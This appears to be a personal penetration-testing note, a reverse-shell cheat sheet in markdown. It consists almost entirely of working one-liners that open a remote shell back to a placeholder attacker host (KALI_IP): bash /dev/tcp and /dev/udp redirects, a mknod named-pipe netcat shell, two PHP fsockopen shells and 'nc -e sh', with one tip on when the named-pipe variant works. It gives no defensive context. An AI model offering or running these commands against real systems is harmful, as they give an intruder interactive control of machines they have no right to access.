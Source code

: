 ```yaml
---
title: 
tags:
---
```

## Bash

```bash
sh -i >& /dev/tcp/KALI_IP/9999 0>&1
```

```bash
sh -i >& /dev/udp/KALI_IP/9999 0>&1
```

## mknod

```bash
mknod backpipe p; nc KALI_IP 9999 0<backpipe | /bin/bash 1>backpipe
```
>[!tip]
>This reverse shell typically works well when bash reverse shells aren't available.
## PHP

#### Command line:
```bash
php -r '$sock=fsockopen("KALI_IP",4242);exec("/bin/sh -i <&3 >&3 2>&3");'
```

```bash
php -r '$sock=fsockopen("KALI_IP",9001);shell_exec("sh <&3 >&3 2>&3");'
```

## Netcat
```bash
nc KALI_IP 9001 -e sh
```


---
### Supporting Content